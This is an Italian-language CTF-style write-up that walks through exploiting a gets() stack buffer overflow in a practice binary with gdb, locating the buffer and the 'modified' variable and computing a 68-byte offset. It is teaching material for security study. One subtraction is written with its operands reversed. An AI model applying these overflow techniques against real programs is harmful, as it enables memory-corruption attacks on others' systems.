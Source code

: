 La funzione gets salta subito all’occhio nel codice assembly, spunta come chiamata a funzione all’indirizzo <main+28>. Durante il debug sarebbe utile inserire un “break main+28”.

Secondo i nostri calcoli, qualche istruzione dopo dovrebbe esserci un confronto tra una variabile ed uno zero:

![gets_gdb](https://mcap0.altervista.org/wp-content/uploads/2022/08/image-6-960x140.png)

La riga evidenziata <main+32> mostra che il registro w0 è ciò che cercavamo. E’ la variabile ‘modified’, e viene salvata nel registro w0 solo un’operazione prima, in questo modo possiamo vedere in che parte dello stack questa variabile è stata collocata dal computer.

``<main+28> w0 <– sp+108

La funzione gets subito prima ci chiede di inserire ‘buffer’ di 64 caratteri (o byte), che verrà salvato nello stack.

## Analisi di un Buffer Overflow con gdb

Facendo i furbi potremmo facilmente riconoscere nei segmenti di memoria un buffer di sole lettere ‘A’ -> salvata come ‘0x41’. In particolare potremmo identificare finalmente la distanza tra ‘buffer’ e ‘modified’ cercando la prima occorrenza di 0x41.

Riavviamo il programma, rimuoviamo i vecchi breakpoint e mettiamone uno subito dopo l’operazione gets.

```bash
(gdb) info break         # list all breakpoints
(gdb) del
Delete all breakpoints? (y or n) y

(gdb) b *main
(gdb) b *main+28
(gdb) run

(gdb) continue           # continua fino al break 
# richiesto input 
AAAAAAAAAAAAAAAAAAAAAAAAA 

# dopo l'input ho un break che mi permette di ispezionare gli indirizzi di memoria

(gdb) x /20x $sp         # stampa 20 blocchi dallo stack pointer
```

![stack](https://mcap0.altervista.org/wp-content/uploads/2022/08/image-7-960x160.png)

Per visualizzare lo stack basta decidere quanti blocchi stampare partendo da $sp
Per terminare la challenge a questo punto basta un po’ di matematica:

1. Ogni blocco che inizia con 0x_____ è da 32bit (4 byte)
2. Ogni byte ha il proprio indirizzo di memoria
3. Ogni riga da 4 blocchi possiede 16 indirizzi di memoria (0x10)
4. Ho inserito 25 ‘A’
    Ogni ‘A’ occupa 1 byte -> 1 indirizzo
    La prima A è all’indirizzo 0x____efd8
    La sua distanza da $sp è 0x28 = 40
5. La variabile modified (w0) è salvata in $sp+108
    ``(gdb) x /x $sp+108
    ``Oxfffffffff01c: 0x00000000
6. La distanza tra il buffer e la variabile da modificare:
    ``python3 >>> 0xefd8 – 0xf01c = 0x44 = 68 bytes
7. Creiamo una stringa da 68 bytes:
    ``python3 >>> print(‘A’ *68)

